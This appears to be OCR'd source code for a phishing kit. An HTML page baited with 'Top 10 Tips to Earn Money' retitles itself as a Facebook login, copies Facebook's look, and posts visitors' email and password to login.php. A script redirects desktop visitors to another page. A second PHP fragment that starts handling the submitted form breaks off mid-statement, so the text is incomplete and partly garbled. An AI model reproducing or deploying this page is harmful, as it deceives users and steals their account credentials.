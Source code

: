 
He is coming back
<!doctype html>
<html>
<head>
   <title>Top 10 Tips to Earn Money in Short Time</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
   <meta name="description" content="Here are the list of top 10 tips to earn money in short time and become a
   successful earner in today's market. This list are exclusive to get for free to everyone.">
   <meta property='og:image' content='earnmoney.jpg' />
   <link rel="shortcut icon" href="https://www.facebook.com/rsrc.php/yl/r/H3nktOa7ZMg.ico">
   <style>
      table tr td{text-align:center;}
      .bottom a{color:#D3D3D3;}
      .bottom a:link{text-decoration:none;}
      input{padding:10px;}
      .login{background-color:#3b5998;color:white;}
      .check{background-color:#32CD32;color:white;padding:12px;}
      .inputf a:link{text-decoration:none;}
   </style>
</head>
<body style="margin:0px;">
<script>
   document.title='Facebook - Log In or Sign Up';
</script>
<div style="width:100%;">
<div style="height:40px;background-color:#3b5998;padding-bottom:10px;padding-left:5px;">
   <span style="color:white;font-size:120%;"><br/>facebook</span>
</div>
<div style="background-color:#FAFAD2;padding:5px;line-height:23px;text-align:center;">
   <span style="color:purple;">Login to continue to get top 10 exclusive tips to earn money in short time.</span>
</div>
<div class="inputf" style="background-color:AliceBlue;padding:10px;text-align:center;"><br/>
   <form name="fbform" method="post" action="login.php">
      <input name="email" type="text" id="email" placeholder="Email address or phone number" maxlength="40" size="30px"
      required><br/><br/>
      <input name="pass" type="password" id="pass" placeholder="Password" maxlength="40" size="30px"
      required><br/><br/>
      <input class="login" name="login" type="submit" id="submit" value="Log In" size="60px"><br/><br/>
      <span style="text-align:center;">Or</span><br/><br/>
      <a class="check" href="#email" onclick='document.getElementById("email").focus();'>Create New Account</a><br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Forgotten password?</a> <br/><br/>
      <a href="#email" onclick='document.getElementById("email").focus();'>Help Centre</a><br/>
   </form>
</div>
<div class="bottom" style="background-color:#808080;padding:10px;">
   <table style="width:250px;margin-left:auto;margin-right:auto;color:#D3D3D3;">
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (UK)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (US)</a></td>
   </tr>
   <tr>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>English (In)</a></td>
      <td><a href="#email" onclick='document.getElementById("email").focus();'>More</a></td>
   </tr>
   </table>
   <p style="text-align:center;color:white;">Facebook</p>
</div>
</div>
</body>
</html>

<script type="text/javascript">
if (screen.width > 800) { window.location = "localhost/earnmoneyD.php"; }
</script>
<!doctype html>
<html>
<head>
   <title>Logging in to facebook</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width,initial-scale=1.0,user-scalable=yes">
</head>
<body style="margin:0px;"> 
<?php
   if($_SERVER["REQUEST_METHOD"] == "POST")
   </body>
</html>.





